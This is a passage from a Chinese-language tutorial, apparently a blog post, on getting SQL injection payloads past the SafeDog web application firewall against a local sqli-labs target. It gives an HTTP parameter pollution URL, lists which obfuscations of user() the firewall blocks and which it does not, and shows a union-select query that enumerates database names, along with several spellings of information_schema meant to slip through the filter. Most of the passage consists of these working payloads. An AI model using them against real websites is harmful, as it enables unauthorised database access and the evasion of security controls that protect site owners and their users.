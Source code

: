 
懂我意思吧，怎么绕出来，发挥你的现象，总之俩开花。


4. 老生常谈 hpp 被人遗忘的手法

前面说过 `/**/` 里面的内容安全狗基本不管了，那么我们用hpp 参数污染来绕过就很简单了
照成这个手法的原因是 web server 对参数的解析问题 在php/apache 中 它总解析最后一个id


```
http://192.168.59.129/Less-1/?id=-1' /*&id='union select 1,user(),3 -- +*/

```



# 0x03 注入

既然绕过了 `union select` 那么注入就简单了 首先来看个 `user()` ,因为它是被拦截的所以我们需要简单的绕过它

```
user()   拦截
user/**/() 拦截
user/**/(/**/) 拦截
hex(user/**/(/**/)) 不拦截

```

接着就是爆库名

```
union  -- hex()%0a select 1,schema_name,3 from `information_schema`.schemata limit 1,1

```

接下来的流传都差不多了 关键点就是在于 from 后面这块 后面的我以这个 `information_schema.schemata` 为例展示几种思路可能有的不能过

```
`information_schema`.schemata
`information_schema`.`schemata`
information_schema.`schemata`
(information_schema.schemata)
information_schema/**/.schemata

```


# 0x04 文末

这么多手法又有多少人认真看了呢，认真去试过，探索。


#### 本文如有错误，请及时提醒，避免误导他人

* author：404